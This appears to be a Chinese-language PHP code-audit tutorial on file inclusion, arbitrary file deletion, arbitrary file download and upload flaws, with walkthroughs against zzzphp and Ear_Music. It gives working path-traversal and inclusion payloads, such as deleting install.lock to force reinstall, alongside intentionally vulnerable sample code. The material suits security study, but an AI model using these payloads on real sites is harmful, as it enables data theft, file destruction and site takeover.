# 0x00 文件包含

### 本地包含

本地文件包含（Local File Include）简称 LFI，文件包含在php中，一般涉及到的危险函数有`include()`、`include_once()`、`require()`、`require_once()`，在包含文件名中存在可控变量的话就可能存在包含漏洞，由于这几个函数的特性也可能产生其他漏洞，后面一一讲到。

示例：

```
<?php
    $file = $_GET['name'];
    include($file);
?>

```
payload:

```
http://127.0.0.1/test.php?name=D:\phpstudy\PHPTutorial\MySQL\my.ini

```
这是个最简单的文件包含，没有任何过滤。但是一般程序不会这么写，一般会指定后缀，这样我们就需要截断来绕过了。

```
<?php
    $file = $_GET['name'];
    include($file . "html");
?>

```
在PHP5.2.x中我们可以通过使用%00来截断后面的内容、也可以使用路径长度截断，不过都在php5.3中被修复了。

payload：

```
http://127.0.0.1/test.php?name=D:\phpstudy\PHPTutorial\MySQL\my.ini%00

```



利用字符.或者/.或者./来截断。系统文件路径长度限制：windows 259个byteslinux 4096个bytes。

### 远程包含

远程文件包含漏洞(Remote File Inclusion)简称RFI，他需要我们的php.ini中配置`allow_url_include`、 `allow_url_fopen`。

1.包含远程文件 

需要打开`allow_url_include=On`、 `allow_url_fopen = On`



他可以利用?号截断，不受版本限制

payload：

```
http://127.0.0.1/test.php?name=http://127.0.0.1/1.txt?

```

2.伪协议

```
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流

```
各种伪协议的使用方法网上很多，大家搜索一下吧。


### 实战审计

直接看主页index.php

```
<?php
//单一入口模式
error_reporting(0); //关闭错误显示
$file=addslashes($_GET['r']); //接收文件名
$action=$file==''?'index':$file; //判断为空或者等于index
include('files/'.$action.'.php'); //载入相应文件
?>

```
他会包含files目录下的文件，因为他没有过滤../所以可以包含任意目录下的文件，由于加了后缀所以漏洞存在于低版本php。




# 0x01 任意文件删除

任意文件删除审计一般来说我们都是搜索函数`unlink` 然后回溯去看。

inc\zzz_file.php



首先判断传入的参数是否为空，然后拼接路径，第516行中出现了一个函数`ifstrin`,我们跟进看看


只是个简单的判断没啥特殊情况，我们再来看看拿来调用了这个文件。


```
function file_path( $path ) {
    $list=array();
	$path= substr( $path, 0, strrpos( $path, '/' ));
    $list=splits($path,'/');
    return $list;
}

function arr_search($arr1, $arr2 ) {
    $result=false;
    foreach ( $arr1 as $v ) {
       if(in_array( $v,$arr2 )) return true;        
    }
    return $result;
}

```
获取参数，然后看看我们传入的路径是否存在这个数组里面的值，也就是基本上是没有过滤的，因为我们完全可以通过../ 跳回去。

payload：

```
POST /zzzp6p/admin/save.php?act=delfile

path=/zzzp6p/upload/../install/1install.lock

```
这里我们走的下面的分支不能删除 `array( 'php', 'db', 'mdb', 'tpl' )` 这个数组的文件。

要删除任意文件只需要使用

```
path=/zzzp6p/runtime/../install/1.db

```
让`ifstrin()`为true走上面的分支即可。

一般来说我们任意文件删除 是配合删除install.lock来达到网站重装漏洞。


# 0x02 任意文件下载

任意文件下载常见于文件的显示和下载的地方，一般关注的文件是和下载有关的，比如download。当然你还可以搭建源码，来寻找能够下载的地方。

常见的下载或读取函数: `file_get_contents()`、`readfile()` 、`fopen()`

在网上找到个别人审计的实例，结合起来审计一下，用到的源码是Ear_Music_20180820_UTF8

搜索down相关的词语，找到文件\template\default\source\down.php



我们看看`$file`参数怎么来的,先是调用函数`getfield()`,转到函数去看看


不出意外应该是从数据库中读取路径，再来看看`geturl()`函数



构造下载地址，这些地方没什么问题，我们来看看什么地方对储存地址的表中插入了数据，搜索表名`lyric`。

\source\user\music\ajax.php



我们看到`$lyric`经过 `checkrename`、 `SafeRequest`这两个函数的清洗，先来转到函数`SafeRequest`。


我们传入的mode是get，然后经过`addslashes()`的转义，下面在替换为空，也就是我们基本上是不能使用`\\`了，我们在看看`checkrename`



这里正则匹配了我们的

```
.\ 
?iframe=
.php?

```
这里完全看不懂他匹配后缀为php?这个的意义何在，直接php就绕过了。

所以综合起来就是不要带有`\ 和 ./` 这里我们只要传入绝对路径就可以了

登陆前台找到上传歌曲的页面在歌词地址中插入payload

payload：

```
D:/phpstudy/PHPTutorial/WWW/Ear_Music/template/default/source/down.php

```





# 0x03 文件上传

文件上传只有一个函数 `move_uploaded_file()` 一般来说，我们就可以搜索这个函数来回溯，看他的验证方式，是黑名单还是白名单，是否是前端限制，是否只是简单的验证了文件头，是否是能绕过的正则匹配，是否渲染了图片。

结合zzzphp来审计一下文件上传，全局搜索`move_uploaded_file`

\zzzcms\inc\zzz_file.php




回溯看看那里调用了这个函数



典型的黑名单验证，可以使用asa绕过，只需要在后台添加这个扩展名



上传即可，当然也可以通过上图中的 switch分支，只要传入的 type不是他的类型就可以跳过后台添加这个步骤，




# 0x04 文末

对文件的操作还见于写入其他配置文件，典型的有thinkphp缓存文件写入。